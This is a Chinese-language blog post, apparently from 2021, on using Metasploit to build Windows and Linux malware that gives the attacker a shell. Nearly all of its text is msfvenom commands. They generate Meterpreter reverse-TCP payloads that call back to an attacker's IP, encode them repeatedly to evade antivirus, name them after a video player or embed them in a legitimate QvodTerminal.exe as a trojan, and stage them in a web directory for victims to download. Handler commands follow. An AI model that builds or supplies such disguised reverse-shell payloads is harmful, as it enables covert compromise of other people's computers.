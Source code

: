 ```yaml
---
layout: post
title:  "制作 windows 和 linux 客户端恶意软件进行渗透"
date:   2021-03-06
categories: 网络安全
tags: msf使用
---
```


* content
{:toc}

###  制作 window 恶意软件获取 shell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103540454.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /var/www/html/西瓜影音1.exe
```

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.53 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 20 | msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 -f exe -o /var/www/html/西瓜影音2.exe
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103641785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103710296.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)

```bash
set payload windows/meterpreter/reverse_tcp
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103732645.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103821365.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103832818.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103853441.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103903142.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103914633.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103931936.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103941560.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.53 LPORT=4444 -b"\x00" -e x86/shikata_ga_nai -i 10 -x QvodTerminal.exe -f exe -o /var/www/html/QvodTerminal.exe
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306103955751.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)

```bash
set payload windows/meterpreter/reverse_tcp
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104009231.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104026962.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021030610404986.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104100233.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104115981.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)

```bash
 set payload windows/meterpreter/reverse_tcp
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104146144.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104321528.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
##  制作Linux恶意软件获取 shell

```bash
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.53 LPORT=4444 -b "\x00" -i 10 -f elf -o /var/www/html/xuegod
```

```bash
set payload linux/x64/meterpreter/reverse_tcp
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104457599.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQwOTY1MTc3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306104516775.png)
